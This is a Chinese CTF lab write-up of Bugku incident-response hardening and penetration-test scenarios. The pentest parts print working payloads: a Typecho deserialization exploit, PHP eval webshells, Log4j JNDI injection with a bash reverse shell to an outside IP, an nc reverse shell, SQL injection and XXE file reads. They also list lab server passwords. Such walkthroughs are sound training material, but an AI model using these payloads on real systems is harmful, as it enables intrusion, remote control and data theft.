



# bugku-PAR

## 应急加固【简单】

```
 服务器：139.196.165.235 账号：administrator 密码：ncmaIqdzLtuRiINIqNAx.. 
```

mstsc连接就好，进去后看看，这里是出网的，上个d盾过去。

### 提权方式

udf提权

找到目录，可以看到个phpMyadmin，然后连进去看命令，可以看到个udf.dll


### 黑客webshell

查看访问日志，前面的操作是扫描目录，然后就访问这个文件


找到这个文件，可以看到是个马


### 黑客账号

win+r输入，然后找到账号删除

```
compmgmt.msc
```


### 后门木马

可以通过火绒查杀，下载后就查杀出来


通过火绒剑将木马ip找出来，这里先在隔离区恢复出来加入隔离区，然后运行右键查看ip


### 加固服务器

输入gpedit.msc，然后找到密码策略加强


### 删除木马

然后去掉并用火绒杀掉。

### 修复漏洞

请修复黑客提权利用的漏洞，这里百度找一下。

```
修复建议

1、mysql配置文件中 secure_file_priv 项设置为NULL或非 mysql/lib/plugin目录。

2、控制目录访问权限，例如控制/lib/plugin，system32/wbem/mof等目录需要管理员权限访问或者设置为只读权限。

3、数据库用户确保正确实施最小权限原则。
```

修改my.ini文件

```
...
myisam_max_sort_file_size=64G
server_id=1
tmp_table_size=64M
secure_file_priv=null
wait_timeout=120
...
```


然后重启，记得重启

## 应急加固1

```
 服务器：106.14.239.111 账号：root 密码：PqkEsbRlotTkYpPLicbe.. 
```

查看日志


### js劫持

获取js劫持域名（带https）

访问ip，然后会跳转到一个博客界面

```
https://www.194nb.com
```

### 黑客首次webshell 密码

查看日志


```
QjsvWsp6L84Vl9dRTTytVyn5xNr1
```

### 黑客首次入侵方式

黑客首次攻击（非有效攻击）通过什么方式（如:文件上传、SQL注入、命令执行）                


这里是xss

### 黑客服务器的信息

```
ps -aux
```

可以看到有个sh文件，查看他


### 黑客的webshell2

```
 ./LogForensics.pl -f access.log -websvr nginx
```


可以看到1.php文件


### mysql

mysqlgetshell的方法

MySQL 5.0版本以上会创建日志文件,我们通过修改日志文件的全局变量,就可以GetSHELL。

修复方法就是关闭全局变量

```
revoke file on *.* from 'root'@'localhost';
set global general_log = off;
flush privileges;
```


### 黑客的账号


强制删除他

```
userdel -rf aman
```

### 黑客篡改的命令

命令在bin中，看时间


这里有ls和ls2，ps和ps`_`，删除后替换

```
rm -rf  ps 
mv ps_ ps
rm -rf ls 
mv ls2 ls
```

删除木马

```
rm -rf /var/www/html/public/static/img/1.php
```


### 修复js劫持

找public的js文件，删除掉

```
find . | xargs grep -ri '<script type="text/javascript">' -l | sort | uniq -c
```

https://jsdec.js.org/


## 渗透测试1

```
甲公司邀请你对他们公司进行网络安全测试，但是甲公司只给了一个官网链接你能打到他们内网吗？
```

### 场景1

进网站看view-source就有

```
flag{19870f6159c3367132523a026930fb14}
```

### 场景2

ip/admin跳转到后台登录，admin/admin进入后台


### 场景3

首页--服务端选php，这里可以执行系统命令，反弹shell


然后写入马

```
echo "eval(\$_POST[11]);">>index.php
```

连上去，这里是要绕过disable，插件绕过就好


找到home


### 场景4

收集信息


连接数据库


数据库有一个flag，这里访问不了很奇怪换哥斯拉


### 场景5

pwn不会，这里就先跳，后面再学。

### 场景6

扫内网，frp做代理


```
http://101.132.136.219:8080/robots.txt
```

访问8080

```
http://47.102.114.42:8080/login
```

一看就是shiro，用工具打


### 场景7

shiro中cat /home/flag就出来了

### 场景8


上哥斯拉/冰蝎，有时不可以，牛马东西，提权


find提权


### 场景9

看版本，然后5.0.2漏洞开打


工具开打


gethsll


### 场景10

提示数据库，找一下账号密码


换哥斯拉连接，蚁剑有问题连接不上


### 场景11

这里要提权


cve-2021-4034提权


## 渗透测试2

扫描目录


```
http://139.196.165.235/install/
```


看历史漏洞有个cve-2018-18753可以利用

https://blog.csdn.net/OceanSJ/article/details/129070891

```
<?php
class Typecho_Feed
{
    const RSS1 = 'RSS 1.0';
    const RSS2 = 'RSS 2.0';
    const ATOM1 = 'ATOM 1.0';
    const DATE_RFC822 = 'r';
    const DATE_W3CDTF = 'c';
    const EOL = "\n";
    private $_type;
    private $_items;
 
    public function __construct(){
        $this->_type = $this::RSS2;
        $this->_items[0] = array(
            'title' => '1',
            'link' => '1',
            'date' => 1508895132,
            'category' => array(new Typecho_Request()),
            'author' => new Typecho_Request(),
        );
    }
}
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();
    public function __construct(){
        $this->_params['screenName'] = 'system("cat /flag")';    //替换phpinfo()这里进行深度利用
        $this->_filter[0] = 'assert';
    }
}
 
$exp = array(
    'adapter' => new Typecho_Feed(),
    'prefix' => 'typecho_'
);
 
echo base64_encode(serialize($exp))."\n\n\n\n";
?>
```


### 场景1

漏洞进去根目录有flag

```
flag{40b04d4deee14d2356d8f7a18546516a} 
```

用file_put_contents写文件

```
<?php
class Typecho_Feed
{
    const RSS1 = 'RSS 1.0';
    const RSS2 = 'RSS 2.0';
    const ATOM1 = 'ATOM 1.0';
    const DATE_RFC822 = 'r';
    const DATE_W3CDTF = 'c';
    const EOL = "\n";
    private $_type;
    private $_items;
 
    public function __construct(){
        $this->_type = $this::RSS2;
        $this->_items[0] = array(
            'title' => '1',
            'link' => '1',
            'date' => 1508895132,
            'category' => array(new Typecho_Request()),
            'author' => new Typecho_Request(),
        );
    }
}
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();
    public function __construct(){
        $this->_params['screenName'] = '
file_put_contents("ee.php","<?php echo 23;@eval(\$_POST[1]);?>");';  
        $this->_filter[0] = 'assert';
    }
}
 
$exp = array(
    'adapter' => new Typecho_Feed(),
    'prefix' => 'typecho_'
);
 
echo base64_encode(serialize($exp))."\n\n\n\n";
?>
```

```
http://101.132.111.168/install.php?finish
```

```
__typecho_config=YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo3OiJSU1MgMi4wIjtzOjIwOiIAVHlwZWNob19GZWVkAF9pdGVtcyI7YToxOntpOjA7YTo1OntzOjU6InRpdGxlIjtzOjE6IjEiO3M6NDoibGluayI7czoxOiIxIjtzOjQ6ImRhdGUiO2k6MTUwODg5NTEzMjtzOjg6ImNhdGVnb3J5IjthOjE6e2k6MDtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjY3OiINCmZpbGVfcHV0X2NvbnRlbnRzKCJlZS5waHAiLCI8P3BocCBlY2hvIDIzO0BldmFsKFwkX1BPU1RbMV0pOz8+Iik7Ijt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19czo2OiJhdXRob3IiO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6Njc6Ig0KZmlsZV9wdXRfY29udGVudHMoImVlLnBocCIsIjw/cGhwIGVjaG8gMjM7QGV2YWwoXCRfUE9TVFsxXSk7Pz4iKTsiO31zOjI0OiIAVHlwZWNob19SZXF1ZXN0AF9maWx0ZXIiO2E6MTp7aTowO3M6NjoiYXNzZXJ0Ijt9fX19fXM6NjoicHJlZml4IjtzOjg6InR5cGVjaG9fIjt9
```

连接蚁剑

### 场景2


```
$db = new Typecho_Db('Mysql', 'typecho_');
$db->addServer(array (
  'host' => 'localhost',
  'user' => 'cms',
  'password' => '7aed78676bf27528',
  'charset' => 'utf8',
  'port' => '3306',
  'database' => 'cms',
```

连接数据库有flag


上fscan扫内网


这里要挂代理，代理贼不稳定

### 场景3



下源码


里面有个log4，打log4

```
bash -i >& /dev/tcp/112.74.99.156/10234 0>&1
```

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTIuNzQuOTkuMTU2LzEwMjM0IDA+JjE=
```

base加密

```
 java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTIuNzQuOTkuMTU2LzEwMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" -A 112.74.99.156
```


```
rmi://112.74.99.156:1099/tp4gsy
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://112.74.99.156:1099/v2u8hl
ldap://112.74.99.156:1389/v2u8hl
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://112.74.99.156:1099/fqjhgk
ldap://112.74.99.156:1389/fqjhgk
```

登录框开打

```
${jndi:rmi://112.74.99.156:1099/tp4gsy}
```


反弹成功


看start.sh


### 场景4

根目录的flag

### 场景5

root目录的flag

```
flag{7fd27f868d83e5cb7347eb5d7301b92f}
```

### 场景6

扫描网段


有个192.168.1.2，fscan开扫


输入后得到一个地方


里面有一个flag

### 场景7

不懂，复现

git克隆上马，说法就是可以访问克隆查看的文件

github仓库写个马，然后回来克隆

这里环境有问题，克隆不上去

### 场景8/9

后面就是ftp连接然后拿flag，太卡了不打了

## 渗透测试3

```
“开挂了网安”接到了一个渗透测试任务，你能帮他完成吗
```

主页一看就是ssrf

### 场景1

根目录flag


### 场景2

信息收集

```
url=file:///etc/hosts
```

```
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
192.168.0.2	5a1f51e22929
```

爆破c段

```
192.168.0.1
192.168.0.2
192.168.0.10
192.168.0.138
192.168.0.250
```


访问


被黑了就爆破shell


访问


读取

```
flag{25e44168ae3ad654f8f3f5f3eaaf6b8b}
```

### 场景3

读取根目录的flag

```
flag{8e61c4b37cbd3d2df48cc6ca6e8a12d9}
```

### 场景4

```
http://192.168.0.138
```

有个sql，手动打

```
your sql is :SELECT * FROM userinfo WHERE Id = 1'
```

```
http://192.168.0.138/?id=-1+union+select+1,database(),3,4
```

```
bugku_sql
```

```
http://192.168.0.138/?id=-1+and+1=2+union+select+1,database(),3,TABLE_NAME+from+information_schema.tables+where+TABLE_SCHEMA="bugku_sql"+order+by+1
```

```
flag
```

```
http://192.168.0.138/?id=-1+and+1=2+union+select+1,database(),3,column_name+from+information_schema.columns+where+table_name="flag"+order+by+1
```

```
flag
```

```
http://192.168.0.138/?id=-1+union+select+1,database(),3,flag+from+bugku_sql.flag
```

```
flag{de882e938612f25fe19d0802d3614e70}
```

### 场景5

nc反弹shell

```
http://192.168.0.10/shell.php?cmd=nc 112.74.99.156 11023 -e /bin/sh
```



内网，弄个frp代理

```
http://192.168.0.10/shell.php?cmd=wget -c http://xxx/frpc.ini
```

上传过去后加权限

```
chmod +x frpc
```

```
./frpc -c frpc.ini
```





写马上蚁剑

```
192.168.0.10/shell.php?cmd=echo "<?php @eval(\$_POST[1]);?>">eek.php
```

搞全局代理


代理进去了

蚁剑查看网卡


发现有10.10.0.5字段，扫描。

扫出来一个22

```
http://10.10.0.22/
```

访问admin.php，弱口令进去admin/admin


下面上个马


文件夹管理上传文件就好，然后蚁剑进去根目录有flag

```
flag{0a8ab02f79379703b35d6578c90224ba}
```


### 场景6

网站也有一个flag

### 场景7

有个250还没，访问，bp开代理


一看就xxe


```
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY b SYSTEM "file:///etc/passwd">
]>
<user><username>&b;</username><password>123</password></user>
```

这里根目录和/var/www/html有flag，获取

```
<!ENTITY b SYSTEM "file:///flag">
```

### 场景8

```
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY b SYSTEM "file:///var/www/html/flag">
]>
<user><username>&b;</username><password>123</password></user>
```

```
flag{ad01a2ae63dca841a87ec7dbf147873b}
```

